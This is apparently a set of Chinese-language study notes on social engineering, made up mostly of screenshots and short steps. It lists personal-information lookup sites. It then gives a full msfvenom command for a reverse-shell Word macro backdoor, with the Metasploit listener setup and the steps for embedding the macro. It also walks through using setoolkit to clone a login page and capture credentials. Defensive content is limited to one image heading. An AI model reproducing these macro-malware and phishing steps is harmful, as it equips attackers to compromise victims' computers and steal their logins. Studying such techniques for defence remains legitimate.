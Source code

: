 # 社会工程学

![image-20241023202159504](社会工程学/image-20241023202159504.png)	

![image-20241023202248299](社会工程学/image-20241023202248299.png)		

```
信息收集的方法
个人信息收集内容与方法
https://mp.weixin.qq.com/s/dt2yHvWDIcdpnC3ag5gXsw
个人信息泄露查询
https://monitor.firefox.com/
https://haveibeenpwned.com/
注册查询
https://www.reg007.com/
http://regbao.com/
阿里云实名认证接口
https://market.aliyun.com/products/57000002/cmapi025518.htm
```

## 社会工程学案例和工具

### 宏病毒感染word文件

```
首先生成恶意的宏病毒后门文件
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.15.141 LPORT=4444 -e x86/shikata-ga_nai -i 10 -f vba-exe
```

![image-20241024083807497](社会工程学/image-20241024083807497.png)+

```
这个宏病毒生成后会有两部分内容。分别对应第一部分和第二部分
```

![image-20241024092136168](社会工程学/image-20241024092136168.png)	

![image-20241024092201988](社会工程学/image-20241024092201988.png)	

```
msf上开始监听，等待反弹shell
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.15.141
set lport 4444
run
```

![image-20241024084224004](社会工程学/image-20241024084224004.png)	

```
分别将两部分内容复制下来，用来在word文档创建宏后门。
首先点击创建宏
```

​	![image-20241024092314264](社会工程学/image-20241024092314264.png)	

```
点击创建后，将第一部分内容粘贴下来到这里。
```

![image-20241024092419810](社会工程学/image-20241024092419810.png)	

```
第二部分内容粘贴到word文档下。然后保存word关闭
```

![image-20241024092506296](社会工程学/image-20241024092506296.png)	

```
当打开word之后，就会触发宏后门文件，从而控制电脑。
```

![image-20241024092624307](社会工程学/image-20241024092624307.png)	

### 钓鱼网站

```
比如说随便找一个登录网站。
```

![image-20241024094646917](社会工程学/image-20241024094646917.png)		

```
然后分别使用以下选择来克隆该网站。
```

![image-20241024094109633](社会工程学/image-20241024094109633.png)	

```
打开setoolkit工具，根据上图，一步步做选择。
```

![image-20241024094209158](社会工程学/image-20241024094209158.png)	

![image-20241024094227683](社会工程学/image-20241024094227683.png)	

![image-20241024094241502](社会工程学/image-20241024094241502.png)	

![image-20241024094304904](社会工程学/image-20241024094304904.png)	

```
并将要克隆的网站地址粘贴回车。
```

![image-20241024094750417](社会工程学/image-20241024094750417.png)		

![image-20241024094857180](社会工程学/image-20241024094857180.png)		

```
用克隆的kali的ip进行网站登录，如果输入账号密码，就会被截取下来
```

![image-20241024094932162](社会工程学/image-20241024094932162.png)		

```
只要登录就能获得账号和密码。
```

![image-20241024095012049](社会工程学/image-20241024095012049.png)	

## 社会工程学防范

![image-20241024095040431](社会工程学/image-20241024095040431.png)			











































